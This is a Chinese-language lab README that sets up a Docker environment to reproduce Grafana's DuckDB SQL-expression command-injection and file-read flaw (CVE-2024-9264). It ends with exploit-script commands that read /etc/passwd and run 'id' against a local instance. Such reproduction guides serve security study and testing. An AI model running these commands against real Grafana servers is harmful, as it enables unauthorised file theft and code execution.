



# Grafana duckdb远程代码执行漏洞（CVE-2024-9264）

Grafana 的 SQL 表达式实验功能允许评估包含用户输入的“duckdb”查询。这些查询在传递给“duckdb”之前没有得到充分的净化，从而导致命令注入和本地文件包含漏洞。任何具有 VIEWER 或更高权限的用户都能够执行此攻击。 “duckdb”二进制文件必须存在于 Grafana 的 $PATH 中才能使此攻击起作用；默认情况下，此二进制文件未安装在 Grafana 发行版中。

## 测试环境

执行如下命令启动Grafana：

```
docker compose up -d
```

这里一定要注意，如果你的电脑非ARM架构，需要修改DockerFile文件：

```
# Dockerfile
FROM grafana/grafana:11.0.0-ubuntu

USER root

# Install DuckDB
RUN apt-get update && apt-get install -y && apt-get install unzip -y  \
    wget \
    && wget https://github.com/duckdb/duckdb/releases/download/v1.1.2/duckdb_cli-linux-aarch64.zip \
    && unzip duckdb_cli-linux-aarch64.zip -d /usr/local/bin/ \
    && chmod +x /usr/local/bin/duckdb \
    && rm duckdb_cli-linux-aarch64.zip

# Add DuckDB to the PATH
ENV PATH="/usr/local/bin:${PATH}"
```

如果你的电脑上AMD64架构，需要将其中的aarch64全部改为amd64，以此类推

```
# Dockerfile
FROM grafana/grafana:11.0.0-ubuntu

USER root

# Install DuckDB
RUN apt-get update && apt-get install -y && apt-get install unzip -y  \
    wget \
    && wget https://github.com/duckdb/duckdb/releases/download/v1.1.2/duckdb_cli-linux-amd64.zip \
    && unzip duckdb_cli-linux-amd64.zip -d /usr/local/bin/ \
    && chmod +x /usr/local/bin/duckdb \
    && rm duckdb_cli-linux-amd64.zip

# Add DuckDB to the PATH
ENV PATH="/usr/local/bin:${PATH}"
```

环境搭建完成后访问 http://127.0.0.1:3000 ：



## 漏洞复现

首先下载脚本所需依赖：

```
pip install -r requirements.txt
```

接着运行脚本：

任意文件读取：

```
python CVE-2024-9264.py -u admin -p admin -f /etc/passwd  http://127.0.0.1:3000
```



RCE：

```
python CVE-2024-9264.py -u admin -p admin -c id  http://127.0.0.1:3000
```

